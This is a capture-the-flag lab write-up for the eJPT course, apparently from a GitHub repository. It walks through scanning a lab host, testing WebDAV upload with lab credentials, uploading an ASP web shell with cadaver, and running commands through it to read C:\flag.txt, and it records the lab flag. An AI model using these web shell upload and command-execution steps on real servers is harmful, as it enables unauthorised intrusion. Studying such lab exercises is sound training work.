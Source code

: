 # Vulnerability Assessment - WebDAV Exploitation Walkthrough

This document outlines a step-by-step walkthrough for exploiting a vulnerable WebDAV service to retrieve a flag during the **eJPT Vulnerability Assessment** lab.

> **Lab URL:**
> [https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688](https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688)

---

## 📁 Challenge Details

* **Category:** Vulnerability Assessment
* **Target:** `demo.ine.local`
* **Goal:** Exploit WebDAV to retrieve the final flag

---

## 🔎 Step 1: Initial Port Scan

We start with a basic port scan using Nmap:

```bash
nmap demo.ine.local
```

![Step 1](./Screeenshots/1.png)

Identified services:

* HTTP on port 80
* SMB on ports 139 and 445
* MySQL on 3306
* RDP on 3389

---

## 🔍 Step 2: Web Enumeration with Nmap Scripts

We enumerate the HTTP service with the `http-enum` script:

```bash
nmap --script http-enum -sV -p 80 demo.ine.local
```

![Step 2](./2.png)

Revealed the presence of `/webdav/` directory, which is potentially vulnerable.

---

## ⚙️ Step 3: Check WebDAV with `davtest`

First, test if the DAV connection is allowed:

```bash
davtest --url http://demo.ine.local/webdav
```

![Step 3](./3.png)

It responded as **open but unauthorized**.

---

## 🔐 Step 4: Authenticated WebDAV Test

Now try authenticated testing using provided credentials:

```bash
davtest --auth bob:password_123321 --url http://demo.ine.local/webdav
```

![Step 4](./4.png)

This succeeded in creating a directory and uploading various file types. The server allowed execution of `.txt`, `.html`, and `.asp`.

---

## 📊 Step 5: Review Summary Output

We review which files executed successfully:

![Step 5](./5.png)

`.txt`, `.html`, and `.asp` file types were confirmed executable.

---

## 🔧 Step 6: Upload Web Shell with Cadaver

Now we use `cadaver` to interactively upload a reverse shell:

```bash
cadaver http://demo.ine.local/webdav
```

![Step 6](./6.png)

Uploaded: `webshell.asp`

---

## 🔎 Step 7: Authenticate in Browser

Visit the WebDAV directory in Firefox:

![Step 7](./7.png)

Login with username: `bob`, password: `password_123321`

---

## 🔢 Step 8: Command Execution via Web Shell

We access the shell and execute:

```bash
http://demo.ine.local/webdav/webshell.asp?cmd=whoami
```

![Step 8](./8.png)

Successfully ran remote commands as `iis apppool\\defaultapppool`

---

## 📚 Step 9: Locate the Flag

Now we browse the system to locate the flag file:

```bash
cmd=dir C:\
```

![Step 9](./11.png)

Found file: `flag.txt`

Retrieve the flag with:

```bash
cmd=type C:\flag.txt
```

![Step 10](./12.png)

**FLAG:** `9cc175b9c0f1b6a831c399e269772661`

---

## 🕊️ Summary

This challenge involved:

1. Scanning for open services
2. Discovering and verifying WebDAV access
3. Exploiting file upload and execution via DAV
4. Uploading and executing a web shell
5. Reading the flag from the system drive

---

**Disclaimer:** This test was conducted in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.

---

**🔗 [Back to eJPT CTF Challenges Repo](https://github.com/sara5521/eJPT-CTF-Challenges)**
